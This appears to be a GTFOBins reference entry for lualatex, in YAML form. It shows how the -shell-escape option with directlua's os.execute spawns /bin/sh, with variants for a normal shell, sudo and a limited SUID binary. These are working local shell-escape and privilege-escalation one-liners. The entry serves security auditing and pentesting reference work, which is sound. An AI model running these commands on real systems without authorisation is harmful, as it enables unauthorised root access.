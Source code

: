 description: This allows to execute [`lua`](/gtfobins/lua/) code.
functions:
  shell:
    - code: lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
  sudo:
    - code: sudo lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
  limited-suid:
    - code: ./lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
---
